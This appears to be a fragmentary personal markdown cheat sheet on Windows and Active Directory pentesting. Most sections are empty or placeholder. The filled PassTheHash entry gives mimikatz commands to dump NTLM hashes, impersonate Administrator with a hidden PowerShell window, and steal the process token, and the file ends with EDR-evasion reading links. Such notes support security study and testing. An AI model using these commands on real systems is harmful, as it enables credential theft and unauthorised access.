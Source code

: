 # Windows Host security features

# Security in AD network

# Windows related
### Process monitoring
Useful for trackig filesystem, Process, Threads, DLL activity


# Active Directory and Windows Pentesting
### User impersonation
- **PassTheHash**    - Dump NTLM hashes ```lsadump::sam```, now Impersonate a user ```mimikatz sekurlsa::pth /user:Administrator /domain:. /ntlm:… /run:"powershell -w hidden"```, now migrate to the new created process as the impersonated user ```steal_token 1234```
- **PassTheTicket**  - ?????????????????????
- OverPassTheHash    -  


# EDR bypass and malware developement
- Evading EDR Book - [https://learning.oreilly.com/library/view/evading-edr](https://learning.oreilly.com/library/view/evading-edr/9781098168742)https://learning.oreilly.com/library/view/evading-edr/9781098168742
- Grey hat GoLang
